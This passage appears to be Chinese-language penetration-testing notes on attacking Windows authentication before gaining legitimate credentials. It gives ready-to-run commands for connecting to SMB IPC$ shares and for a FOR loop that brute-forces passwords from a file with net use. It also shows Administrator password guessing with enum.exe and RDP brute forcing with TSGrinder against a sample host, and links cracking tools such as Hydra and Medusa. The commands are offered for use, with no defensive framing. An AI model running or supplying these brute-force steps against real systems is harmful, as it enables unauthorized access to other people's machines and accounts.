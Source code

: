 ### 取得合法身份前的攻击

#### 认证

攻击Windows常攻击Windows的文件和打印共享服务，这项服务运行在SMB(服务器消息块)上，尝试远程共享加载：试着连接一个共享卷(比如IPC$或C$共享卷)：

```bash
net use \\192.168.200.21\IPC$ * \u:用户名
```

> *表示手动输入密码


也可以使用FOR语句来爆破密码，将`tokent.txt`的第一个字串赋值给`%i`（密码），将第二个字串赋值给`%j`(用户名)

```bash
FOR /F "tokens=1,2*" %i in (token.txt) do net use \\192.168.200.21\IPC$ %i /u:%j
```

![](/img/hack/%E5%86%85%E7%BD%91/net_use_for.png)

也可以使用以下工具进行口令猜测：
- [enum](https://packetstormsecurity.com/files/download/31882/enum.tar.gz)
- [Brutus](http://www.hoobie.net/brutus/index.html)
- [THC Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [Medusa](http://foofus.net/?page-id=51)

用enum爆破：

```bash
C:\Users\win2k8\Desktop>enum.exe -D -u Administrator -f credentials.txt 192.168.200.21
```

有时候也可以直接爆破远程桌面服务。

用[TSGrinder](http://www.hammerofgod.com/resources/downloads/tsgrinder-2.03.zip)爆破RDP：

```bash
C:\Users\win2k8\Desktop\tsgrinder-2.03>echo Admin 1>a  & tsgrinder.exe -w a -u Administrator -n 1 192.168.200.21 1>out
```
